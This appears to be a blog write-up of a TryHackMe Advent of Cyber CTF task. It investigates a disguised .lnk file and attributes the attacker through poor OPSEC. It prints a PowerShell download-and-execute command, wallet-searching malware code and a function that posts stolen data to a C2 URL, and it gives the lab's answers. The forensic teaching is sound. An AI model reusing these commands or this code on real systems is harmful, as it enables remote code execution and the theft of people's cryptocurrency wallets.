

---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
This CTF is done mainly with following the instructions in the task. 


## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have SSH and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.



We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.


We ended up getting an archive called ````download.zip```` these files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.


Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````


Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````


<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````


